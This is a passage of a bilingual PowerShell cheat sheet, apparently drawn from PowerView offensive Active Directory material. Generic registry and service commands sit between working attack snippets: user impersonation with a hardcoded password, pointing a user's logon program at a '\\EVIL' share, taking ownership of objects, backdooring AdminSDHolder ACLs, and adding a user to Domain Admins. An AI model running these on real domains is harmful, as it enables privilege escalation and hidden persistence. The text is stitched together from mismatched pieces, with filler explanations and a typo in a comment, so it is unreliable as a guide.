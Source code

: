 For example, to impersonate the user "admin" and execute the command "whoami", you would use the following command:

```powershell
Invoke-UserImpersonation -Username admin -Command whoami
```

This can be useful for testing user permissions or performing actions on behalf of another user without needing their password.
```powershell
# if running in -sta mode, impersonate another credential a la "runas /netonly"
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
# ... action
Invoke-RevertToSelf
```
#### 设置值

```powershell
Set-Value -Name "Name" -Value "Value"
```

This command sets the value of a specified variable. Replace "Name" with the name of the variable and "Value" with the desired value.

此命令设置指定变量的值。将"Name"替换为变量的名称，将"Value"替换为所需的值。

#### Set registry values

```powershell
Set-ItemProperty -Path "RegistryPath" -Name "Name" -Value "Value"
```

This command sets the value of a specified registry key. Replace "RegistryPath" with the path to the registry key, "Name" with the name of the value, and "Value" with the desired value.

此命令设置指定注册表键的值。将"RegistryPath"替换为注册表键的路径，将"Name"替换为值的名称，将"Value"替换为所需的值。

#### Set file attributes

```powershell
Set-ItemProperty -Path "FilePath" -Name "Attributes" -Value "Value"
```

This command sets the attributes of a specified file. Replace "FilePath" with the path to the file, "Attributes" with the name of the attribute, and "Value" with the desired value.

此命令设置指定文件的属性。将"FilePath"替换为文件的路径，将"Attributes"替换为属性的名称，将"Value"替换为所需的值。

#### Set service properties

```powershell
Set-Service -Name "ServiceName" -StartupType "StartupType"
```

This command sets the startup type of a specified service. Replace "ServiceName" with the name of the service and "StartupType" with the desired startup type (e.g., Automatic, Manual, Disabled).

此命令设置指定服务的启动类型。将"ServiceName"替换为服务的名称，将"StartupType"替换为所需的启动类型（例如，Automatic，Manual，Disabled）。
```powershell
# set the specified property for the given user identity
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose
# Set the owner of 'dfm' in the current domain to 'harmj0y'
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y
# ackdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=testlab,DC=local' -PrincipalIdentity matt -Rights All
# Add user to 'Domain Admins'
Add-NetGroupUser -Username username -GroupName 'Domain Admins' -Domain my.domain.local
```